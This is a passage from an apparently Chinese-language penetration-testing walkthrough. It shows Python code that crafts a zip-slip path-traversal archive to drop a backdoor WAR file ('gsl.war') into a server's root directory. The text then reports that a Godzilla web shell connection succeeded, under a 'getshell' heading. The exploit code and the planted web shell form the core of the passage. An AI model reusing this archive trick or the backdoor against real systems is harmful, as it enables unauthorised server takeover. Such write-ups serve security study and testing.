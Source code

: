 2、创建穿越漏洞压缩文件：

```python
import zipfile

z = zipfile.ZipFile('test0.zip', 'w', zipfile.ZIP_DEFLATED)
with open('gsl.war','rb') as f:
    temp=f.read()

z.writestr('../../../gsl.war',temp)  #gsl.war为上一步生产的后门war包
z.close()
```

发现上传到了根目录

<img src=".\图片\Snipaste_2023-05-11_18-02-59.png" alt="Snipaste_2023-05-11_18-02-59" style="zoom:67%;" />

#### getshell

成功连接到哥斯拉

<img src=".\图片\Snipaste_2023-05-11_18-05-00.png" alt="Snipaste_2023-05-11_18-05-00" style="zoom:67%;" />
